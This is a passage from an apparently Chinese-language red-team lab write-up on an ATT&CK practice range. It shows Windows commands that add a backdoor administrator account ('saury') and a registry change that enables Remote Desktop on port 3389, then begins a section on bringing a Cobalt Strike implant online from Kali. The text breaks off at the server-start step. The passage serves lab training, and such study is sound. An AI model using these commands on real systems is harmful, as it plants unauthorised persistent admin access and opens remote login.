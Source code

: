 ### 新建用户，开启3389

```bash
net user saury 123.com /add # 添加账户密码
net localgroup administrators saury /add  # 添加为管理员权限
```



![image-20231117132145236](./ATT&CK%E5%AE%9E%E6%88%98%E7%B3%BB%E5%88%97%E2%80%94%E2%80%94%E7%BA%A2%E9%98%9F%E5%AE%9E%E6%88%98%EF%BC%88%E4%B8%80%EF%BC%89.assets/image-20231117132145236.png)

```bash
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f 
# 开启3389端口
```

如果防火墙没关,rdp会登录失败

![image-20231117132242981](./ATT&CK%E5%AE%9E%E6%88%98%E7%B3%BB%E5%88%97%E2%80%94%E2%80%94%E7%BA%A2%E9%98%9F%E5%AE%9E%E6%88%98%EF%BC%88%E4%B8%80%EF%BC%89.assets/image-20231117132242981.png)

# 内网渗透

## （一）CS

### CS木马上线

kali既充当CS服务端，也充当CS客户端

**启动服务端**
